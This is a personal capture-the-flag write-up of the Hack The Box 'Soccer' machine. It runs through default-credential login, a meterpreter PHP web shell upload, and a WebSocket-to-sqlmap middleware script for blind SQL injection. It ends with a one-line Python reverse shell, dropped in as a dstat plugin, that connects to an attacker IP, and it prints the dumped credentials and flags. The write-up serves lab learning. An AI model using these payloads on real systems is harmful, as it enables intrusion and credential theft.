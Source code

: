 ## Enumeration   
10.10.11.194

Enumerate services
-p22 ssh
-p80 http
-p9091smt mail(could be anything...later find out its for the api)

p80 has a webpage

Check for subdomains
run fuzz FUZZ.soccer.htb -->none fd

check subdir
/usr/share/wordlists/dirb/big.txt (small didnt work)
`dirb soccer.htb/FUZZ` --> found `soccer.htb/tiny`

/tiny is a tiny file manager 
--> checking the Github provided for the source code/usage
--> find default creds in the github and try it
admin/admin123

## Foothold
Allows uploading of files into /tiny/uploads folder
Upload a linux/meterpreter/ shell.php
Start listener on msfconsole with **correct payload**!!!
execute /tiny/uploads/shell.php

Inital foothold "www-data" gained
Upgrade shell or watever

#### Enum inside
Enumerate watever.
player flag
/home/player

Some users found?
root
player

`cat /etc/hosts` or go to nginx enabled sites in dir (/etc/nginx/sites-enabled)
Or get linpeas in somehow and execute (could get it to work prbly need it in some special folder ie uploads or smt)

Checkout soc-player.soccer.htb (after adding to /etc/hosts locally)
Signup and login page. Try to signup/login

Takes you to `soc-player.soccer.htb/check` which has an input field 
Check page source which shows the scripts used
```python
var ws = new WebSocket("ws://soc-player.soccer.htb:9091");

###########################################################
 function sendText() {
            var msg = input.value;
            if (msg.length > 0) {
                ws.send(JSON.stringify({
                    "id": msg
                }))
            }
            else append("????????")
```
Page connects to websocket on p9091 likely a SQLdatabase

When "Enter" key is pressed, takes input in the input field as id
Then uses id to send the sql query
SQLi likely possible here
Note: WebSocket (socket conenction) is used here instead of HTTP(req/res model)
Websocket - Asynchronous (Cant repeat requests like in burpsuite)
HTTP - Synchronous


The script uses a websocket so blind injection over websocket possible (google it for the python code)
- http is still used to initiate connection
- websocket handles the payload transfer
```python
from http.server import SimpleHTTPRequestHandler  
from socketserver import TCPServer  
from urllib.parse import unquote, urlparse  
from websocket import create_connection
  
ws_server = "ws://soc-player.soccer.htb:9091"  
  
def send_ws(payload):  
	ws = create_connection(ws_server)  
	# If the server returns a response on connect, use below line  
	
	#resp = ws.recv() 
	# If server returns something like a token on connect you can find and extract from here  
	  
	# For our case, format the payload in JSON  
	message = unquote(payload).replace('"','\'')
	# replacing " with ' to avoid breaking JSON structure  
	
	data = '{"id":"%s"}' % message  
	ws.send(data)  
	resp = ws.recv()  
	ws.close()  
	  
	if resp:  
		return resp  
	else:  
		return ''  
  
def middleware_server(host_port,content_type="text/plain"):  
  
	class CustomHandler(SimpleHTTPRequestHandler):  
		def do_GET(self) -> None:  
			self.send_response(200)  
		try:  
			payload = urlparse(self.path).query.split('=',1)[1]  
		except IndexError:  
			payload = False  
	  
	if payload:  
		content = send_ws(payload)  
	else:  
		content = 'No parameters specified!'  
		  
		self.send_header("Content-type", content_type)  
		self.end_headers()  
		self.wfile.write(content.encode())  
	return  
  
class _TCPServer(TCPServer):  
	allow_reuse_address = True  

#starts http server to receive reqeusts
httpd = _TCPServer(host_port, CustomHandler)  
httpd.serve_forever()
  

print("[+] Starting MiddleWare Server")  
print("[+] Send payloads in http://localhost:8081/?id=*")  

#receives response from sqlmap and sends to the ws
try:  
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:  
	pass
```

Run this program locally.

Then run sqlmap on another terminal with
`sqlmap -u “http://localhost:8081/?id=1" -p “id”`
--> sqlmap injects into the id field from this get param to the middleware
--> middleware sends ws requests to the webserver ws:// service
--> then middleware receives response on its on server and sends to sqlmap


`sqlmap -u “http://localhost:8081/?id=1" -p “id” --dump`
Database: soccer_db
Table: accounts
[1 entry]

+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+


## User 
SSH in using creds found

userflag
787e4332ddfcd8927177c1689178876b



Running linpeas found quite alot of stuff (try anyt)
/usr/local/bin/doas
/usr/bin/su

Linpeas checked the doas.conf
Here doas.conf found with the following rule:
`permit nopass player as root cmd /usr/bin/dstat`

Allows user "player" to run as "root" to cmd in the /usr/bin/dstat dir
--> So if user can get code to run in dstat it would run as root

Look for the dstat bin
`find / -type d  -name dstat 2>/dev/null`
Found:
	/usr/share/doc/dstat
	/usr/share/dstat
	/usr/local/sahre/dstat  --> the only useful dir

Create a python reverse shell plugin `dstat_anything.py` :
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.11",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")

```

note: for some reason only single line file taken from revershell .com is allowed. Couldnt get a whole script (properly formated) to run. 
**Rmb to change ip and port to ur own. dstat_ must be used in the naming also**

`doas -u root /usr/bin/dstat --anything.py`
On another terminal
`nc -lvnp 1234`



root flag baby!!!!!
4c657c2bc8c27020ec1e5154727ecfea


Learning areas:
- Websocket ws:// is not the same as HTTP (oh.....)
- Sometimes middleware needed but can be found online
- Doas is like Sudo but designed to be lightweight for OpenBSD
- Dstat allows runnning of custom plugins named `dstat_<name>.py` in the /usr/bin/dstat dir
- Dstat is like netstat to display system resource stats but allows customisation

Polishing:
- Always check the default creds
- Use a larger wordlist for dir enums (the default ones rarely work)
- Always check page source for scripts]
- Puting scripts in tmp then cp it to required location (ie to /usr/bin/dstat) can prevent heaache from it being deleted constantly